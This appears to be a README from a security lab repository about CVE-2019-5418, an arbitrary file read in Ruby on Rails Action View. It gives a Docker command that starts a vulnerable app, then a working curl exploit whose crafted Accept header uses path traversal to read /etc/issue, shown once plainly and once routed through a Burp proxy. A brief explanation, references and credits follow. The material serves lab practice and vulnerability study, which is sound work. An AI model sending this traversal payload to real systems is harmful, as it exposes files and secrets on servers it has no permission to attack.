 # TITLE OF VULN
## Subtitle / what it does
Ruby on Rails - arbitrary file read

### Run in docker:
```
cd 3-ruby-rails
docker run -p 3000:3000 0snug0/cve-2019-5418
```

### Run in docker:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1:3000' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: .././.././.././.././.././.././.././.././.././.././etc/issue{{' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'Connection: close' \
    $'http://127.0.0.1:3000/chybeta'
```

### Proxy via Burp:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1:3000' -H $'Accept-Encoding: gzip, deflate' --proxy http://127.0.0.1:8080 -H $'Accept: .././.././.././.././.././.././.././.././.././.././etc/issue{{' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'Connection: close' \
    $'http://127.0.0.1:3000/chybeta'
```

### Explanation
There is a File Content Disclosure vulnerability in Action View <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3 where specially crafted accept headers can cause contents of arbitrary files on the target system's filesystem to be exposed.

![image](https://user-images.githubusercontent.com/31791455/140390131-fd85589a-f379-4fb7-b967-e060838742a5.png)


### References and recommended reading
https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418
![image](https://user-images.githubusercontent.com/31791455/140390169-a646a665-9b95-4540-8f9b-93f6e6e37709.png)


### Credits:
https://gist.github.com/ajxchapman/6ed7bf599f29a62cdbab7b6e95eebed9
https://github.com/mpgn/CVE-2019-5418

